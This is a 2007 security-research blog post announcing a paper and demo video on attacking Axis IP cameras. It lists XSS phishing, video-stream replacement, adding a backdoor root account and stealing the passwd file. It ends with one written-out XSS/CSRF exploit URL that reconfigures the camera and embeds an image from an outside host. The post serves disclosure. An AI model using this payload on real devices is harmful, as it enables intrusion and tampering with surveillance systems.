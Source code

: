 ```yaml
---
title: Owning Big Brother - Hollywood-style Exploits Included!
author: adrian-pastor
date: Fri, 28 Sep 2007 18:43:14 GMT
template: post.jade
---
```


I've done some research on Axis IP cameras, which now I am able to disclose to you and reveal some of the magic. Although this is not independent research, I am mentioning it here as it may interest some.

The research is made of two components: a purple paper (one of the traditions we follow in GNUCITIZEN) and a video. I promise you that I won't bore you with PoCs, but actual Hollywood-style exploits. This includes the classic attack in which the legitimate video stream gets replaced by another stream that keeps looping forever (remember [Speed](http://en.wikipedia.org/wiki/Speed_(film))). We even created a [demo video](http://www.youtube.com/watch?v=CEaasduNWBE) of this attack! Blame [Major Malfunction](http://www.alcrypto.co.uk/) (soon to be featured) for this, as he suggested the third-party-video infinite loop technique.

Here are some of the juicy bits, mentioned in the paper:

* Cross-browser XSS phishing
* Replacing the legitimate video stream with our own
* Adding a Backdoor Root Account
* Stealing the 'passwd' File

Here is an example of an exploit that we've come up with. You don't know what it is doing? Well, read the paper for more details:

	http://target/%3cscript%20src=%22/this_server/ServerManager.sr
	v%3fconf_Layout_TitleEnabled=yes&Layout_TitleEnabled=on&conf_L
	ayout_OwnTitleEnabled=yes&conf_Layout_OwnTitle=%3cimg%20src=ht
	tp://snipu.com/f1%3e%3c!--
	&servermanager_do=set_variables%22%3e%3c/script%3e%3c!--
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
